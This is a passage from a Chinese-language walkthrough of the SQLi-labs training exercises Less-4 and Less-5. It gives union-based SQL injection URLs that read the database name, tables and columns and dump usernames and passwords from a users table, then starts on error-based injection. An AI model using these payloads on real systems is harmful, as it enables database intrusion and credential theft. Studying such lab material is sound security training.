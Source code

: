 ```sql
#获取数据库名
http://8.137.60.154:8082/Less-4/?id=-1")union select 1,2,database() --+

#获取表名
http://8.137.60.154:8082/Less-4/?id=-1")union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

#获取users表的字段
http://8.137.60.154:8082/Less-4/?id=-1")union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users" --+

#获取数据
http://8.137.60.154:8082/Less-4/?id=-1")union select 1,2,group_concat(id,username,password) from security.users --+
```

![image-20241007020439124](./assets/image-20241007020439124.png)

****

### Less-5(报错注入->`'`闭合)

```sql
#判断闭合方式
http://8.137.60.154:8082/Less-5/?id=1'
```

![image-20241007020932493](./assets/image-20241007020932493.png)

- 这一关相信大家可能发现了,没有回显,页面只显示`You are in ...`
- 可能大家会想到用`盲注`,但是盲注很费时间,按照先后顺序,`才第五关怎么就开始考察盲注了`
- 转变一下使用`报错注入`,这儿括号有点多,没办法细讲,下来自己去属性`相关函数`的`参数个数`

